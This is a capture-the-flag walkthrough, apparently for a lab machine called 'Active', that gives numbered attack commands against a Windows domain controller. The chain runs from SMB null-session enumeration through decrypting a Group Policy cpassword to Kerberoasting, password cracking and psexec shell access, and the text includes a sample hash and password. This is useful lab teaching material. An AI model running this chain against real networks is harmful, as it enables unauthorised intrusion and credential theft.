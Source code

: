 1 - Enumerate ports

2 - When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3 - Add the domain paired with the machin ip to the hosts file in /etc/hosts

4 - Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__ -N 
- -L : Allows you to look at what services are available on the server 
- -N : Suppresses the normal password prompt from the client to the user. Used in a null session<br><br>
	4.1 - Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__<br>
	4.2 - For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5 - After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
- -H : Stands for Host

6 - Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
- -r : List contents of a directory

7 - Because of the recognizable structure of the server we can tell this is a sysvol: 
- DfsrPrivate 
- Policies
- scripts

8 - While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9 - In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10 - Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11 - After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12 - Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13 - Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14 - Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
- -u and -p : Stands for Username and Password

15 - Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16 - Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__<br><br>
	16.1 - Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N<br>
	16.2 - If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17 - Useful rpcclient commands: 
- _enumdomusers_ - Enumerate domain users of the domain controller
- _enumdomgropus_ - Enumerate domain groups of the domain controller
- _querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
- _queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
- _querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18 - After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
	18.1 - This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
	18.2 - After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19 - When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20 - Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
	20.1 - Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe